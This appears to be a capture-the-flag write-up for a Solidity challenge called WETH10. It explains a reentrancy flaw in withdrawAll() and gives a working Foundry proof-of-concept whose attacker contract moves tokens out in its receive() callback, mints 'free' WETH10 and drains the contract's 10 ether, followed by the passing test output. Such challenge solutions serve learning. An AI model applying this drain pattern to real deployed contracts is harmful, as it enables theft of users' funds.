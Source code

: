 # Two problems:
1. The function `execute()` is dangerous, it can be used to call functions like `ERC20.approve()` with the `msg.sender` being itself, but it's not the key to this challenge.
2. The key vulnerability is the `withdrawAll()`, attacker can use a `fallback` function to transfer away the WETH10 token before it's burned. So we can obtain "free" tokens by repeatedly `deposit()` and `withdrawAll()`, and finally withdraw the "free" tokens to 10 ether.


# POC (Foundry)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "src/WETH10.sol";

contract Weth10Test is Test {
    WETH10 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH10();
        bob = makeAddr("bob");

        vm.deal(address(weth), 10 ether);
        vm.deal(address(bob), 1 ether);
    }

    function testHack() public {
        assertEq(address(weth).balance, 10 ether, "weth contract should have 10 ether");

        vm.startPrank(bob);

        // hack time!
        BobContract bc = new BobContract(weth);

        // give contract 1 ether
        bc.deposit{value: 1 ether}();

        // run 10 rounds, each round increases bob's token by 1 ether.
        for(uint i=0; i<10; i++) {
            bc.oneRound();
        }

        // so far, bob should have 10eth of WETH10, now withdraw to ether
        weth.withdrawAll();

        // bob get back 1 ether from the contract
        bc.withdraw();

        vm.stopPrank();
        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(bob.balance, 11 ether, "player should end with 11 ether");
    }
}

contract BobContract {
    address bob;
    WETH10 weth;

    constructor(WETH10 _weth) {
        bob = msg.sender;
        weth = _weth;
    }

    // bob deposit 1 ether for further operations
    function deposit() external payable {}
    // bob withdraw 1 ether after all done
    function withdraw() external { 
        Address.sendValue(payable(bob), 1 ether);
    }

    // each round costs nothing but gains 1 ether of WETH10 token
    function oneRound() external payable {
        weth.deposit{value: 1 ether}();
        weth.withdrawAll();
    }

    receive() external payable {
        // transfer away the WETH10 token to prevent being burned.
        weth.transfer(address(bob), 1 ether);
    }
}

```

# output
> Running 1 test for test/WETH10.t.sol:Weth10Test
>
> [PASS] testHack() (gas: 671480)
>
> Test result: ok. 1 passed; 0 failed; finished in 719.57µs
